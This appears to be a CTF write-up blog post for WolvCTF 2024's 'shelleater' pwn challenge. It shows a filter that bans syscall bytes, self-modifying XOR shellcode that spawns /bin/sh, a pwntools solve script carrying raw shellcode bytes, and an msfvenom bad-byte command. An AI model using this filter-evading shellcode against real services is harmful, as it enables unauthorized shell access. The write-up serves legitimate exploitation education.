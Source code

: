 +++
title = 'WolvCTF 2024 - pwn/shelleater'
date = 2024-03-18T15:34:02-04:00
draft = false
+++

This was a fun challenge involving shellcode. I solved it the hard way by writing my own shellcode, but I saw two simpler ways to solve it after the CTF were over so I will briefly discuss those at the end.

We are given a file and a netcat port. Taking a look at the file, all protections are off.

```sh
checksec --file=shelleater
[*] '/home/df00/Desktop/shelleater'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Looking at the dissambly, the binary will exectute your shellcode, but not if it contains 0x80 or 0x050f.

```c
void entry(void)

{
  long inc;
  ulong uVar1;
  ulong local_64 [12];
  
  syscall();
  syscall();
  inc = 0;
  do {
    if ((*(ulong *)((long)local_64 + inc) & 0xffff) == 0x50f) goto read_bytes.fail;
    inc = inc + 1;
  } while (inc != 0x60);
  inc = 0;
  while (uVar1 = *(ulong *)((long)local_64 + inc) & 0xff, uVar1 != 0x80) {
    inc = inc + 1;
    if (inc == 0x62) {
                    /* WARNING: Could not recover jumptable at 0x00401086. Too many branches */
                    /* WARNING: Treating indirect jump as call */
      (*(code *)local_64)(0x62,uVar1,0x80);
      return;
    }
  }
read_bytes.fail:
  syscall();
  syscall();
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

`int 0x80` is used for syscalls, and 0x050f is the assembly for syscall. Let's take a look at really simple shellcode:

```sh
.global _start
_start:
.intel_syntax noprefix

        mov rax, 59
        lea rdi, [rip+binsh]
        mov rsi, 0
        mov rdx, 0

        syscall
binsh:
        .string "/bin/sh"

```

We want to call `execve("/bin/sh", 0, 0)`. Looking at syscall table `https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/`, we need 59 in rax and "/bin/sh" in rdi. rsi and rdx are both zero. When we assemble this, we can that our syscal in assembly is 0x0f05 which we cannot use.

```sh
objdump -M intel -d shellcode-elf

shellcode-elf:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:	48 c7 c0 3b 00 00 00 	mov    rax,0x3b
  401007:	48 8d 3d 10 00 00 00 	lea    rdi,[rip+0x10]        # 40101e <binsh>
  40100e:	48 c7 c6 00 00 00 00 	mov    rsi,0x0
  401015:	48 c7 c2 00 00 00 00 	mov    rdx,0x0
  40101c:	0f 05                	syscall 

000000000040101e <binsh>:
  40101e:	2f                   	(bad)  
  40101f:	62                   	(bad)  
  401020:	69                   	.byte 0x69
  401021:	6e                   	outs   dx,BYTE PTR ds:[rsi]
  401022:	2f                   	(bad)  
  401023:	73 68                	jae    40108d <binsh+0x6f>

```

We can make the code modify itself before execution. We can do many different ways for example using add or sub, but I used xor.

```sh
.global _start
_start:
.intel_syntax noprefix

        xor word ptr [rip+sys], 0x1111
        mov rax, 59
        lea rdi, [rip+binsh]
        mov rsi, 0
        mov rdx, 0
sys:
        .byte 0x1e
        .byte 0x14

binsh:
        .string "/bin/sh"
~                         
```

At label sys, we write 2 bytes. If we had written 0x0f05, at runtime this would perform a syscall. Instead, what I did was xor 0x0f05 with 0x1111 which is 0x1e14. Then we write 0x1e14 at sys, and xor sys with 0x1111 at the start.

The final solve script:

```python
from pwn import *

target = remote('shelleater.wolvctf.io', 1337)

target.recv()

payload = "\x66\x81\x35\x1c\x00\x00\x00\x11\x11\x48\xc7\xc0\x3b\x00\x00\x00\x48\x8d\x3d\x10\x00\x00\x00\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x1e\x14\x2f\x62\x69\x6e\x2f\x73\x68\x00"

target.sendline(payload)

target.interactive()

```

And we get our flag:
`wctf{1_s3ash3ll_1_3at_1t}`

### Other solutions

Other solutions I saw written about after the CTF that were much simpler:

1. msfvenom will generate shellcode for you, and you can specify which bytes to exclude:
`msfvenom -p linux/x64/exec -f c CMD=bash -b '\x80\x0f'`

2. Not sure if this is an intended way to solve this challenge, but the buffer for our shellcode is 100 bytes, and the check for 0x80 only checks the first 98 bytes. Looking online we can find lots of examples of shellcode that end in 0x80 and can pad the shellcode to the end of our buffer.



